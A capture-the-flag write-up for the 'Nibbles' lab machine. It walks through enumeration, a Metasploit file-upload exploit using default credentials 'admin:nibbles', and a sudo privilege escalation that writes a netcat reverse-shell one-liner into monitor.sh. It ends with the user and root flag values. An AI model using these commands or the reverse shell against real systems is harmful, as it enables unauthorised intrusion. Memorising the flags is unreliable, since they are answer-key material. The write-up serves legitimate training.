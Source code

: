 # Nibbles - Easy

```shell
nmap -T4 -p- -A -v 10.10.10.75

feroxbuster -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

searchsploit nibbleblog
#we have exploits

msfconsole -q

search nibbleblog

use exploit/multi/http/nibbleblog_file_upload

set LHOST 10.10.14.5

set USERNAME admin

set PASSWORD nibbles

set RHOSTS 10.10.10.75

set TARGETURI /nibbleblog

run

shell
#get system shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

whoami
#nibbler

cd /home/nibbler
#read user flag

sudo -l
#we can run monitor.sh in home directory
#we do not have the directories required

ls -la

unzip personal.zip

cd personal

cd stuff

ls -la
#monitor.sh

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 5555 >/tmp/f" > monitor.sh

#on attacker machine
nc -nvlp 5555

#on victim shell
sudo ./monitor.sh
#we get root shell on our listener
```

* Open ports & services:

  * 22 - OpenSSH 7.2p2 (Ubuntu)
  * 80 - http - Apache httpd 2.4.18

* The webpage on port 80 does not contain anything significant, but the page source mentions the directory /nibbleblog

* This directory contains a blogpage, we can check for clues here; ```feroxbuster``` can help in directory enumeration.

* We have a directory /nibbleblog/admin, containing several folders.

* We also find a directory /nibbleblog/content, containing /private, /public and /temp directories.

* We also have a login page at /nibbleblog/admin.php - we can attempt to use default creds here.

* admin:admin does not work, but admin:nibbles works and we get access.

* We can also search for exploits related to 'nibbleblog' and we get a few results.

* Using ```Metasploit```, we can configure and run the exploit - we get a Meterpreter shell as nibbles.

* We can run ```linpeas.sh``` to get clues for privesc.

* We can see that 'sudo -l' shows we can run a script 'monitor.sh' in nibble's home directory.

* Now the folder /personal is not there yet; we do have a .zip file with the same name and directory structure - so we can unzip it.

* Now, we can edit the script - we add a reverse shell one-liner - and setup listener on attacker machine.

* Running the script as sudo gives us root shell on our listener.

```markdown
1. User flag - ae1ea55b5c44f09d0f736dee2de65a12

2. Root flag - a5e9e5557a95a04f2b43a75b38b2c775
```

